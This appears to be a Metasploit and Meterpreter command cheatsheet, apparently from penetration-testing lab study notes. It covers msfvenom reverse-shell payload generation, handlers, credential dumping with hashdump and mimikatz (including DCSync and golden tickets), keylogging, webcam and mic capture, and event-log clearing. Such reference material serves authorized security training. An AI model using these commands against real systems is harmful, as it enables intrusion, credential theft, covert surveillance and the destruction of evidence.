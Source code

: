 # Cheatsheet — Metasploit Meterpreter

| Area | Command / Example | Purpose |
|---|---:|---|
| **Start / Console** | `msfconsole` | Launch Metasploit console |
| **Search modules** | `search <term>` / `search type:auxiliary <svc>` / `search portscan` | Find modules by keyword, type, CVE, platform |
| **Use module** | `use <module>` or `use <index>` | Enter module context |
| **Module info** | `info` or `info <module>` | View detailed module metadata & caveats |
| **Show options** | `show options` | List module required/optional settings |
| **Show payloads** | `show payloads` | List payloads compatible with current exploit |
| **Set option** | `set RHOSTS 10.10.10.5` | Set module-scoped option |
| **Set global** | `setg LHOST 10.10.44.70` | Make option persist across modules |
| **Unset / Flush** | `unset RHOSTS` / `unsetg LHOST` / `unset all` | Remove one/global/all settings |
| **Run / Exploit** | `exploit` or `run` | Launch module |
| **Run & background** | `exploit -z` | Launch and immediately background session |
| **Safe probe** | `check` | Probe target for vulnerability without exploiting (if supported) |
| **Back / Exit context** | `back` | Leave module context |
| **Help / usage** | `help` / `help <command>` | Show console help or command usage |
| **History** | `history` | Show previous msfconsole commands |
| **Execute local shell** | `exec: <command>` or type `ls` | Run OS commands from msfconsole (limited) |
| **Run Nmap locally** | `nmap -sS <target>` | Run Nmap from msfconsole (exec) |
| **DB status** | `db_status` | Show PostgreSQL connection status |
| **Init DB (system)** | `systemctl start postgresql` / `sudo -u postgres msfdb init` | Start PostgreSQL and initialise msf DB (non-root) |
| **Workspaces** | `workspace` / `workspace -a name` / `workspace name` / `workspace -d name` / `workspace -v` / `workspace -D` / `workspace -r` / `workspace -h` | Manage project workspaces |
| **db_nmap** | `db_nmap -sV -p- 10.10.12.0/24` | Run Nmap and import results into Metasploit DB |
| **DB import/export/connect** | `db_import <file>` / `db_export <file>` / `db_connect <conn>` / `db_disconnect` / `db_save` / `db_remove` / `db_rebuild_cache` | DB management (import scans, save connections, rebuild cache) |
| **Query hosts/services** | `hosts` / `services` / `hosts -h` / `services -h` | List DB-stored hosts & services |
| **Populate RHOSTS from DB** | (inside module) `hosts -R` | Load saved DB hosts into module `RHOSTS` |
| **Query specific services** | `services -S <name>` | Search DB services (e.g., `services -S netbios`) |
| **Search modules by CVE/type** | `search cve:2017 type:exploit` | Filter search results |
| **Sessions list** | `sessions` or `sessions -l` | List active sessions |
| **Interact session** | `sessions -i <id>` | Attach to a session |
| **Run command on session** | `sessions -c 'whoami' -i <id>` | Execute command on session non-interactively |
| **Background session** | `background` (from session) or `CTRL+Z` | Send interactive session to background |
| **Session options** | `sessions -d` / `sessions -k <id>` / `sessions -K` / `sessions -u <id>` / `sessions -s <script> -i <id>` / `sessions -n <id> <name>` / `sessions -v` / `sessions -x` / `sessions -t <secs>` / `sessions -S <filter>` | Manage/terminate/upgrade/run scripts on sessions |
| **Show payload space** | `show options` (after `set PAYLOAD`) | Reveal payload-specific options (eg. LHOST/LPORT) |
| **Set payload** | `set PAYLOAD <payload/name>` | Choose payload for exploit or handler |
| **Msfvenom list** | `msfvenom -l payloads` / `msfvenom --list formats` | List available payloads / output formats |
| **Generate payload** | `msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> > file` | Create payload (examples: `-f exe`, `-f elf`, `-f raw`) |
| **Encode payload** | `-e <encoder>` (e.g., `-e php/base64`) | Encode/obfuscate payload (no AV guarantee) |
| **Make file executable** | `chmod +x rev_shell.elf` | Set execute permission on UNIX payloads |
| **Handler (catch shells)** | `use exploit/multi/handler` → `set payload <name>` → `set LHOST <ip>` → `set LPORT <port>` → `run` | Listen for reverse callbacks (Meterpreter/shell) |
| **Multi-handler defaults** | `exploit/multi/handler` supports staged & stageless payloads | Use for msfvenom reverse payloads |
| **ZIP/RAR/SSH converters (context)** | `zip2john`, `rar2john`, `ssh2john` | (From John room) convert archives/keys into hashes — mentioned only for cross-tool workflow |
| **Meterpreter: show help** | (inside Meterpreter) `help` or `?` | Show Meterpreter command categories & commands |
| **Meterpreter: core** | `background` / `exit` / `guid` / `help` / `info` / `irb` / `load <ext>` / `migrate <pid>` / `run <script>` | Session control, extensions & migration |
| **Meterpreter: filesystem** | `ls` / `cd <dir>` / `pwd` / `search -f <name>` / `download <file>` / `upload <file>` / `edit <file>` / `rm <file>` | File browsing & transfer |
| **Meterpreter: networking** | `ifconfig` / `netstat` / `arp` / `route` / `portfwd add <lhost> <lport> <rhost> <rport>` | Network enumeration & port forwarding |
| **Meterpreter: system** | `ps` / `getpid` / `getuid` / `sysinfo` / `execute -f <cmd>` / `kill <pid>` / `pkill <name>` / `reboot` / `shutdown` / `clearev` / `getsystem` | Process, privilege and system control |
| **Meterpreter: credentials & forensics** | `hashdump` / `load kiwi` → `creds_all`, `creds_msv`, `dcsync`, `dcsync_ntlm`, `kerberos_ticket_list` / `golden_ticket_create` | Dump SAM/LSASS, perform DCSync or Kerberos ops (Kiwi/mimikatz) |
| **Meterpreter: UI / media** | `screenshot` / `webcam_list` / `webcam_snap` / `webcam_stream` / `record_mic <secs>` / `screenshare` | Capture desktop, webcam, mic (if supported) |
| **Meterpreter: keystroke & monitoring** | `keyscan_start` / `keyscan_stop` / `keyscan_dump` / `idletime` / `screenshare` | Keylogging & user monitoring |
| **Meterpreter: shell & escape** | `shell` → OS shell; return to Meterpreter with `CTRL+Z` / `background` | Full OS shell when required |
| **Meterpreter: scripting & extensions** | `load python` / `python_execute "<code>"` / `load kiwi` / `irb` / `bgrun <script>` | Run Python code, Kiwi (mimikatz), Ruby REPL, background scripts |
| **File search / forensic** | `search -f <pattern>` / `search -d <dir> -f <pattern>` | Find files quickly (flags, configs, creds) |
| **Port forwarding (example)** | `portfwd add -l 8080 -p 80 -r 10.10.0.5` | Forward local port to remote service through session |
| **Privilege escalation helpers** | `getsystem` / `migrate` / `load kiwi` → `privilege` related commands | Try elevation techniques & use extensions for deeper ops |
| **Post modules (run from msfconsole / meterpreter)** | `run post/<module>` or `run post/windows/gather/enum_shares` | Run post-exploitation modules/scripts |
| **Logging / reproducibility** | Record: workspace, module path, options, payload, msfvenom command, session IDs, artifacts | Essential for reporting and repeatability |
| **Safety / ethics reminder** | Test only in authorized labs or with explicit permission | Avoid destructive actions on production systems |
